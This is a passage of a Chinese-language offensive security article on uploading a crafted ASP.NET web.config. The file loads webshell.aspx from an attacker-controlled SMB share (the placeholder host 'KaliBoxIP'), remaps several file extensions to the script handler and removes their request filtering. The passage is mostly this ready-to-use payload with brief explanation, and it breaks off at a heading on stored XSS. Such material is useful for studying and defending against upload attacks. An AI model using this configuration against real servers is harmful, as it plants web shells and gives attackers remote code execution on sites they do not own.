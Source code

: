 这将从 SMB 共享加载 webshell.aspx 文件，并在打开该文件夹中的 ASMX 文件时执行它。

也可以重新映射.master 和.ascx 扩展，并像 ASMX 文件一样使用它们。上传这些文件的可能性高于其他 ASP.NET 扩展，例如`.aspx，.asmx，.ashx，.svc和.soap`，它们也可以使用相同的技术接管。

以下 web.config 文件显示了可以接管多个文件扩展名的示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="remap_asmx1" path="*.ascx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx2" path="*.master" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx3" path="*.aspx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx4" path="*.ashx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx5" path="*.svc" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx6" path="*.soap" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".ascx" />
                    <remove fileExtension=".master" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

当`SMB`被阻止时，可能很难使用此技术，因为`wsdlHelpGenerator`元素的 href 属性中的文件扩展名很重要。

#### 2.3 存储 XSS

